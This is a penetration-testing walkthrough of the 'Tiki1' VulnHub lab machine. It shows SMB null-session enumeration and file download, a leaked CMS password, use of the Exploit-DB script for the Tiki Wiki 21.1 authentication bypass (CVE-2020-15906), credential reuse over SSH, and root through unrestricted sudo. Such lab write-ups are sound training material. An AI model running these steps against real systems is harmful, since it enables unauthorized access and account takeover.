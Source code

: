 # Recon

## NMAP
- tcp/22
- tcp/80
- tcp/139
- tcp/445
- udp/137
- udp/5353

## TCP/139,445 - SMB

###  Enum4linux
```
[*] Users via RPC on 192.168.110.104   
[*] Enumerating users via 'querydispinfo'
[+] Found 1 users via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 1 users via 'enumdomusers'
[+] After merging user results we have 1 users total:
'1000':
	username: silky
	name: Silky
	acb: '0x00000010'
	description: ''
```
- User `silky`

### Crackmapexec + SMBMap
![](images/Pasted%20image%2020220121224951.png)
- Able to read `Notes` fileshare

## TCP/80
### FFUF
```
┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104]
└─# ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.110.104/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376]
.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376]
robots.txt              [Status: 200, Size: 42, Words: 4, Lines: 4]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
tiki                    [Status: 301, Size: 317, Words: 20, Lines: 10]
:: Progress: [4614/4614] :: Job [1/1] :: 6140 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
- `robots.txt`
- `tiki`




# Initial Foothold

## TCP/139,445 - SMB 
1. Earlier, we enumerated SMB Fileshare w/ a NULL session, we have READ access to `Notes` fileshare
2. Download all files in `Notes` fileshare & view its content
	```
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# smbclient //$ip/Notes -c 'prompt;recurse;mget *'
	Enter WORKGROUP\root's password: 
	getting file \Mail.txt of size 244 as Mail.txt (14.0 KiloBytes/sec) (average 14.0 KiloBytes/sec)
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# ls
	Mail.txt
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	└─# cat Mail.txt 
	Hi Silky
	because of a current Breach we had to change all Passwords,
	please note that it was a 0day, we don't know how he made it.

	Your new CMS-password is now 51lky571k1, 
	please investigate how he made it into our Admin Panel.

	Cheers Boss.

	```
## TCP/80 - HTTP
1. Proceed to `/tiki`
	![](images/Pasted%20image%2020220121230715.png)
2. Proceed to `/tiki/tiki-login.php`
	![](images/Pasted%20image%2020220121230848.png)
3. Login w/ silky:`51lky571k1`
	![](images/Pasted%20image%2020220121232020.png)
4. Proceed to `/tiki/tiki-listpages.php`
	![](images/Pasted%20image%2020220121232452.png)
	![](images/Pasted%20image%2020220121232527.png)
5. After looking through the History of Silky homepage, found this
	![](images/Pasted%20image%2020220121232639.png)
	- `CVE-2020-15906`
6. View `CVE-2020-15906` - Tiki 21.1-2
	- https://www.exploit-db.com/exploits/48927
	- https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-15906
		![](images/Pasted%20image%2020220121232946.png)
		- We are able to set admin's password to a blank value after 50 failed login attempts.
7. Search for exploits 
	```
	 ┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/loot/smb]
	 └─# searchsploit tiki 21
	------------------------------------------------------------------------------------
	Exploit Title                                        |  Path				
	------------------------------------------------------------------------------------
	Tiki Wiki CMS Groupware 21.1 - Authentication Bypass | php/webapps/48927.py
	------------------------------------------------------------------------------------
	```
8. Use exploit
	```
	┌──(root💀kali)-[~/vulnHub/Tiki1/192.168.110.104/exploit/tiki-21.1]
	└─# python3 48927.py $ip
	Admin Password got removed.
	Use BurpSuite to login into admin without a password 

	```
9. Login w/ admin:blank w/ Burpsuite
	1. Login w/ admin:test
	2. Intercept w/ burp and remove the password test
		![](images/Pasted%20image%2020220121233907.png)
	3. Turn off intercept
10. Proceed to List Pages -> Credentials
	![](images/Pasted%20image%2020220121235530.png)
	- silky:Agy8Y7SPJNXQzqA

## TCP/22 - SSH
1. SSH w/ silky:Agy8Y7SPJNXQzqA
![](images/Pasted%20image%2020220121235722.png)

# Privilege Escalation

## Root via Sudo
```
silky@ubuntu:~$ sudo -l
[sudo] Passwort für silky: 
Das hat nicht funktioniert, bitte nochmal probieren.
[sudo] Passwort für silky: 
Passende Defaults-Einträge für silky auf ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

Der Benutzer silky darf die folgenden Befehle auf ubuntu ausführen:
    (ALL : ALL) ALL
silky@ubuntu:~$ sudo su
root@ubuntu:/home/silky# whoami
root
root@ubuntu:/home/silky# 

```
![](images/Pasted%20image%2020220121235821.png)

---
